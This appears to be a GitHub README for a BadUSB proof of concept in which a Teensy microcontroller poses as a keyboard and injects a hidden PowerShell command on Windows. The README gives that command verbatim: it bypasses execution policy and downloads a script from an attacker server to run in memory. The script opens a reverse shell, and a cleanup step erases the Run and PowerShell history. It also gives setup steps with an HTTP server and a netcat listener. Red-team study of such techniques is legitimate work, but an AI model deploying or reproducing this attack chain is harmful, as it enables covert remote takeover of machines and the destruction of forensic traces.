

<p align="center">
  
</p>

<h1 align="center">Teensy Reverse Shell</h1>

<p align="center">
   <strong>A BadUSB proof of concept using a Teensy 3.2 microcontroller to deploy a fileless PowerShell reverse shell on a Windows target.</strong><br>
   <em>For educational and authorized red-team use only. Do not use against systems you do not own or have explicit permission to test.</em>
</p>

<p align="center">
  <a href="https://www.pjrc.com/teensy/teensy32.html"></a>
  <a href="https://www.pjrc.com/teensy/td_download.html"></a>
  <a href="https://learn.microsoft.com/powershell/"></a>
  <a href="https://www.microsoft.com/windows"></a>
  <a href="https://github.com/kacigaya/teensy-reverse-shell/blob/main/LICENSE"></a>
</p>

## How It Works

The attack has two components: a Teensy sketch that acts as a HID keyboard injector, and a PowerShell reverse shell served over HTTP.

### 1. HID Injection (`stager/stager.ino`)

When the Teensy is plugged into a Windows machine, the OS recognizes it as a trusted USB keyboard with no driver prompt. The sketch then:

1. Waits 3 seconds for the OS to register the device
2. Presses `Win + R` to open the Run dialog
3. Types a PowerShell one-liner character by character (80ms per key to avoid dropped input)
4. Presses Enter to execute
5. After execution, opens Run again and deletes forensic traces

The payload command that gets typed:

```stager/stager.ino#L13-L15
const char PAYLOAD[] =
  "powershell -w h -nop -ExecutionPolicy Bypass -c "
  "\"&(IEX (New-Object Net.WebClient).DownloadString('http://172.20.10.4:8080/shell.ps1'))\"";
```

| Flag | Purpose |
|---|---|
| `-w h` | Hides the PowerShell window |
| `-nop` | Skips the user profile for faster, cleaner startup |
| `-ExecutionPolicy Bypass` | Bypasses script execution restrictions |
| `IEX` + `DownloadString` | Downloads and executes `shell.ps1` entirely in memory, nothing written to disk |

### 2. Reverse Shell (`shell.ps1`)

The script is hosted on the attacker's HTTP server and fetched at runtime. It:

1. Opens a TCP connection back to the attacker IP and port (`172.20.10.4:6969`)
2. Reads commands sent over the socket in a loop
3. Executes each command with `Invoke-Expression` and sends the output back

Because the connection originates from the victim, it bypasses most inbound firewall rules.

### 3. Cleanup

After the shell connects, the Teensy injects a second Run command that silently:

- Deletes the Run dialog history (`HKCU\...\Explorer\RunMRU`)
- Deletes the PowerShell command history file (`PSReadLine\ConsoleHost_history.txt`)

---

## Attack Chain

```
Teensy plugged in
  -> OS registers it as a USB keyboard
  -> Win+R opens Run dialog
  -> PowerShell one-liner is typed and executed (hidden window)
  -> shell.ps1 is downloaded from attacker HTTP server and run in memory
  -> Victim opens TCP connection back to attacker on port 6969
  -> Attacker gets interactive shell
  -> Teensy erases Run history and PS history
```

---

## Setup

### Requirements

- Teensy 3.2
- Arduino IDE with [Teensyduino](https://www.pjrc.com/teensy/td_download.html) add-on
- Board config: `Teensy 3.2`, USB Type: `Keyboard + Mouse + Joystick`, Layout: `French (AZERTY)`
- A machine to host `shell.ps1` over HTTP (e.g. `python3 -m http.server 8080`)
- A TCP listener on the attacker machine (e.g. `nc -lvnp 6969`)

### Configuration

Update the IP address in both files before flashing/hosting:

- `stager/stager.ino`: change the URL in `PAYLOAD`
- `shell.ps1`: change the default values of `$i` (IP) and `$p` (port)

### Steps

1. Start the HTTP server in the directory containing `shell.ps1`
2. Start the TCP listener on the attacker machine
3. Flash `stager.ino` to the Teensy
4. Plug the Teensy into the target Windows machine

---

## Project Structure

```
teensy-reverse-shell/
+-- stager/
|   +-- stager.ino     # Teensy HID keyboard injector
+-- shell.ps1          # PowerShell reverse shell payload
+-- README.md
```
